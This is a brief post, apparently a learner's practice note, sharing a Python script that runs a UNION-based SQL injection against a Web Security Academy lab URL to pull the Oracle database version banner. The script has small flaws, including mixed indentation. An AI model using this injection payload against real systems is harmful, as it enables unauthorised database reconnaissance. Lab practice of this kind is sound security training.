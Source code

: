 First created in Jupyter. I wanted to try it out and while i wouldn't use it all the time i can see it is absolutely great at certain tasks like web scraping. 

```python
import requests
import urllib3
from bs4 import BeautifulSoup
import re
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

path = 'https://0a4100520480a53c8201cada005d0006.web-security-academy.net/filter?category=Pets/'

exploit = "'+UNION+SELECT+banner,+NULL+FROM+v$version--"

r = requests.get(path + exploit, verify=False)

if '200' in r.text:
    res = r.text
    
    soup = BeautifulSoup(res, 'html.parser')
	version = soup.find(string=re.compile('.*Oracle\sDatabase*.'))
print(version)
```

Very Basic script that i will remake tomorrow.


